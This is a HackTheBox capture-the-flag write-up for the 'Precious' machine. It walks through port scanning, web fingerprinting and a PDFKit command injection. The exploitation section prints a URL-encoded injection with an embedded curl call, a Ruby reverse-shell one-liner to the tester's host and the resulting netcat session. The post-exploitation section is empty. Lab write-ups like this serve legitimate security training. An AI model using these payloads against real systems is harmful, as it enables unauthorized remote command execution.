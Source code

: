 # HackTheBox Precious Writeup

<!-- Description -->

![Precious](imgs/machine.png)

Completed on ??/??/20??
<!-- /Description -->

## Table of Contents

<!-- TOC -->
- [HackTheBox - Precious - WriteUp](#hackthebox-precious-writeup)
  - [Table of Contents](#table-of-contents)
  - [Let's Get Going!](#lets-get-going)
    - [Enumeration](#enumeration)
      - [Nmap Scan](#nmap-scan)
      - [HTTP - Port 80](#http---port-80)
    - [Exploitation](#exploitation)
      - [Ruby PDFKit Command Injection](#ruby-pdfkit-command-injection)
    - [Post Exploitation](#post-exploitation)

<!-- /TOC -->

---

## Let's Get Going
Connect to HackTheBox network with openvpn and start scanning the machine.

### Enumeration
#### Nmap Scan
We start by running a nmap Syn Scan to find potentially open ports.
```bash
$ sudo nmap -sS -Pn -n -oN nmapss 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-24 13:10 EST
Nmap scan report for 10.10.11.189
Host is up (0.097s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.33 seconds
```
Going further we can try to version scan the two open ports in order to get more details of what we are dealing with.
```bash
$ nmap -sV -Pn -n -oN nmapsv 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-24 13:06 EST
Nmap scan report for 10.10.11.189
Host is up (0.098s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
So we got two open ports hosting a web app and a ssh server and we were able to determine services versions. 
For now we can continue with further scanning of each ports and finding out more about each service.

#### HTTP - Port 80
We can run now a nikto scan which runs automated scan on the web app to find more info about it.
```bash
$ nikto -h http://10.10.11.189:80/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.11.189
+ Target Hostname:    10.10.11.189
+ Target Port:        80
+ Start Time:         2023-01-24 14:37:03 (GMT-5)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Root page / redirects to: http://precious.htb/
+ No CGI Directories found (use '-C all' to force check all possible dirs)

+ 7889 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2023-01-24 14:51:47 (GMT-5) (884 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nothing particularly interesting. We try now to visit the web app and see what's hosted.
Visiting $ip:80 returns an error.
The server returned 302 response to the browser and hence redirected it to the domain name precious.htb which couldn't be resolved.

![Precious](imgs/dnserror.png)

To solve that we must edit /etc/hosts file and add the resolution for the browser "$ip precious.htb".
Visiting precious.htb now returns successfully the web page.

![Precious](imgs/webpage.png)

At first glance, we notice one main functionality of this web app: URL to pdf. Checking Page Source and running directory fuzzing returns no other results at all.
So it seems we have to find out more about this functionality.
Sending as input any public URL returns the following error.

![Precious](imgs/interneterror.png)

So we can try setting up a local server on our machine and see if the remote server visits us.
We run the following command after creating a basic index.html file.
```bash
$ php -S 10.10.14.116:8000
[Tue Jan 24 15:05:45 2023] PHP 8.1.12 Development Server (http://10.10.14.116:8000) started
```
By inputting the address to our local server we get the visit!
```bash
[Tue Jan 24 15:07:26 2023] 10.10.11.189:51626 Accepted
[Tue Jan 24 15:07:26 2023] 10.10.11.189:51626 [200]: GET /
[Tue Jan 24 15:07:26 2023] 10.10.11.189:51626 Closing
```
On the other hand, in the browser, we get our pdf.

![Precious](imgs/receivedpdf.png)

Going further, we try to inspect the web page with Burp Suite. Upon requesting the root directory and intercepting the response we start getting more details.

![Precious](imgs/burpsuiteroot.png)

We can see the response header "X-Runtime" with the value "Ruby", hinting the backend could be written in the Ruby programming language. We can see aswell Phusion Passenger which is an app server that supports Ruby.
Great! We can continue now by inspecting the response of the web app to the URL input.

![Precious](imgs/burpsuiteresponse.png)

As we can see the response contains the generated pdf file. Going through its contents, we notice data refering to the tool that generated the pdf.

![Precious](imgs/pdfkit.png)

---

### Exploitation

#### Ruby PDFKit Command Injection
Searching through the internet about pdfkit v0.8.6, shows that it is actually a module in Ruby that generates PDFs from given URLs. Going further, we can find that the version used in our web app is old and critically vulnerable to command injection!
The injection works as follows: When user input (URL) gets passed to the application and if the provided URL's parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF/
```
http://10.10.14.116:8000/?c=%20`curl http://10.10.14.116:443/`
```
To verify if the above injection work, I setup a local php server on port 443 and passed the above input to the app. And to no surprise, the app did make the request to the server on port 443. 
```bash
$ php -S 10.10.14.116:443 
[Tue Jan 24 18:59:04 2023] PHP 8.1.12 Development Server (http://10.10.14.116:443) started
[Tue Jan 24 18:59:08 2023] 10.10.11.189:37630 Accepted
[Tue Jan 24 18:59:08 2023] 10.10.11.189:37630 [200]: GET /
[Tue Jan 24 18:59:08 2023] 10.10.11.189:37630 Closing
```

We can now attempt to spawn a reverse shell to access the machine. Using the [reverse shell generator](https://www.revshells.com/), we get our ruby payload, that we append to the URL.
```ruby
ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.116",4242))'
```

We then setup our listener on port 4242 and send the payload to the server..

```bash
$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.116] from (UNKNOWN) [10.10.11.189] 52102
ls
app
config
config.ru
Gemfile
Gemfile.lock
pdf
public
```

And we are in!!

### Post Exploitation

---
